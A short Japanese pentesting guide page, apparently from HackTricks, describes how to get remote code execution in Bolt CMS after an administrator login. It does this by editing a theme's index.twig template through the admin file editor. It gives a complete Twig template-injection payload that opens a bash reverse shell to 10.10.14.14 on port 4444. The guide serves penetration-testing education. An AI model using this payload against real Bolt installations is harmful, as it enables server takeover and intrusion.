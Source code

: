 # Bolt CMS

{{#include ../../banners/hacktricks-training.md}}

## RCE

管理者としてログインした後（/botに移動してログインプロンプトにアクセス）、Bolt CMSでRCEを取得できます：

- `Configuration` -> `View Configuration` -> `Main Configuration`を選択するか、URLパス`/bolt/file-edit/config?file=/bolt/config.yaml`に移動します。
- テーマの値を確認します。

<figure><img src="../../images/image (771).png" alt=""><figcaption></figcaption></figure>

- `File management` -> `View & edit templates`を選択します。
- 前のステップで見つけたテーマベース（この場合は`base-2021`）を選択し、`index.twig`を選択します。
- 私の場合、これはURLパス/bolt/file-edit/themes?file=/base-2021/index.twigにあります。
- [template injection (Twig)](../../pentesting-web/ssti-server-side-template-injection/index.html#twig-php)を介してこのファイルにペイロードを設定します。例：`{{['bash -c "bash -i >& /dev/tcp/10.10.14.14/4444 0>&1"']|filter('system')}}`
- 変更を保存します。

<figure><img src="../../images/image (948).png" alt=""><figcaption></figcaption></figure>

- `Maintenance` -> `Clear the cache`でキャッシュをクリアします。
- 再度、通常のユーザーとしてページにアクセスすると、ペイロードが実行されるはずです。

{{#include ../../banners/hacktricks-training.md}}
